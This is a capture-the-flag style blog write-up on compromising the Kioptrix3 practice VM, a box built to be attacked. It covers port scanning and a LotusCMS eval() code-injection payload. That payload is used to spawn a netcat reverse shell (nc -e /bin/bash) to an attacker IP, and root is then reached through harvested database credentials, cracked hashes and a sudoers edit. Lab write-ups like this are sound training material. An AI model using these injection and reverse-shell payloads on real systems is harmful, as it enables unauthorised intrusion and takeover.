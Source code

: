 ```yaml
---
layout: post
title: "Kioptrix3 Writeup"
date : 2022-11-22
image: ../../assets/img/Posts/Kioptrix3.png
categories : [Writeups]
tags : [web,linux,]
---
```

`raw copy`
### Introduction
Kioptrix3 is a vulnerable linux  box .It is third in the Kioptrix Series but was my firt to attempt.The box tests several areas such as web and linux priviledge escaltion.You can download the box [here.](http://www.kioptrix.com/dlvm/KVM3.rar)

### Enumeration
To start of , we need to discover the machine from our network ,i will be using `netdiscover -i eth1 `.
![netdiscover](/assets/img/Posts/kioptrix3netdiscover%20scan.png) 
Since i know the first two machines our kioptrix machine is the third one.

Next on will be to discover the open ports using `nmap`.

![nmap](/assets/img/Posts/kioptrix3nmapscan.png) 
From our scan results , we can see port 22,80 are open and thus port 80 is our **most likely** way in.

![port 80](/assets/img/Posts/kioptrix3websnap.png) 
The kioptrix3 machine is using dhcp and thus directs us to include its ip on our attackers box.With sudo power open the hosts file on `/etc/hosts` then include the machines ip and the name as `kioptrix3.com`
Now that we have our target site, we look for anything that can aid in compromising the site.From an overview of the site, we can deduce that there is a content management system `Lotuscms`.We can also learn that there should be a database since the picture in the gallery blog have upload dates.
Since i know nothing about this cms ,we'll have to look on how to find its version as wappalyzer doesn't seem to know too.
On searching for how to find the version,we find more intresting info from what we were looking for.The cms developers seem to have discontunued the project .It was in its third version which is said to have a remote code vulnerability from the way it handles the `eval()` function.
### The eval () function
You can learn more about the eval function [here](https://www.php.net/manual/en/function.eval.php)
### Exploit
The login page has a url `kioptrix3.com/index.php?system=Admin`.When we alter the last part of the url with a random string we get an error message indicating the use of the eval function.Once we test with `/index.php?page=index` we get directed to the landing page meaning the inputs are valid.
To exploit the RCE , we will send a request `kioptrix3.com/index.php?page=index` and capture it with BurpSuite(*you can use other proxies). 
![burp request](/assets/img/Posts/kioptrx3burp1.png).
Before we foward the request we need to change the request from `GET` to `POST` .
![burp post request](../assets/img/Posts/kioptr3burp2.png)
At this point you can send the request to the repeater to modify the data .To test if the site will execute our code we sent `page=index');${system(ls)};#` in our request.
From the response we are able to see contents of a directory listing which confirms that the site is vulnerable.
![system ls call](/assets/img/Posts/kioptrix3burp3.png)

## Getting the Reverse shell
On our attack machine we set up the listener on port 4444:`nc -lvp 4444`. Back to  Burp,we edit the contents of the page request to establish a reverse connestion to our kali machine :`page=index');${system("nc -e /bin/bash 192.168.56.103 4444")};#`
After getting our reverse connection , we can use `python -c 'import pty; pty.spawn("/bin/bash")'` to get an interactive shell.

![reverse shell](/assets/img/Posts/kioptrix3revshell.png)

We can try to elevate our priviledges as we have gained our intial foothold.

### Escalating to root
In linux systems , one can gained root priveledges in a number of ways.Attackers may use SUID binaries,CronJobs,edit sudoers file and in some cases one might be lucky enough to find editable Shadow file.
Priviledge escalation might be vertical or horizontal. In that one might escalate straight to root or compromise another user in the system then escalate to root.
For this particular task I opted for the latter.
My hunt for other users started at the `/home` directory. In this directory we can deduce that the system has three users currently.

![Users](/assets/img/Posts/kioptr3homedir.png) 

After wondering around the directories of the two users, I found some intresting file under the name `CompanyPolicy.README` which instructs new employees to use the command `sudo ht` when editing , creating or viewing files.A quick Google search on what the command might be indicates that `ht` is a file editor. You can learn more about ht [here](hte.sourceforge.net/readme.html)
Now that we have what seems like a piece of the puzzle , we need to look for other pieces.
Since the machine is hosting the site , we can try to look for config files and see if we are lucky enough to find password or such. 
`find / -name '*.php' | grep config`

![config files](/assets/img/Posts/kioptrix3configfiles.png)

On the kioptrix site we had a gallery page and looking at the config files we found there is a gallery config file.
The file contains some credentials which seem to be of the root user in phpmyadmin.*forgot to say the PhpmyAdmin page for this page is listable🙃*

![phpmyadmin credential](/assets/img/Posts/kioptrix3phpmyadmin.png)

Using the credentials we find we are able to access the gallery database where we find hashes of two developer accounts.

![hashes](/assets/img/Posts/kioptrix3hashes.png)

Using a decryptor we can get the password of both users and switch to the one we shall prefer.
I will be using `loneferret` because the other piece of the puzzle was under their account.
Using the editor we found out earlier we are able to access and edit the `shadow` and `sudoers` files.Through the `sudoers` file we can give anyone `sudo` permission.Some may prefer decrypting the hashes in the shadow file but i  choose editng the sudoers file.*it is faster 😀*

![sudoers edit](/assets/img/Posts/kioptri3sudoers.png)

Now that we have sudo powers ,lets change the user to root.

![root snap](/assets/img/Posts/kioptrix3rootsnap.png)

From the root directory we have the flag for this challenge.You can find the it under the `Congrats.txt` file .

![congrats](/assets/img/Posts/kioptrix3congrats.png)
### Conclusion
The method used above was just one among many that can be used to compromis this said box.You can try out other methods for the initial access and the priviledge escalation too. As they say: "Google is your friend".If you get stuck try to search.

*Any comments and compliments about this piece are welcome*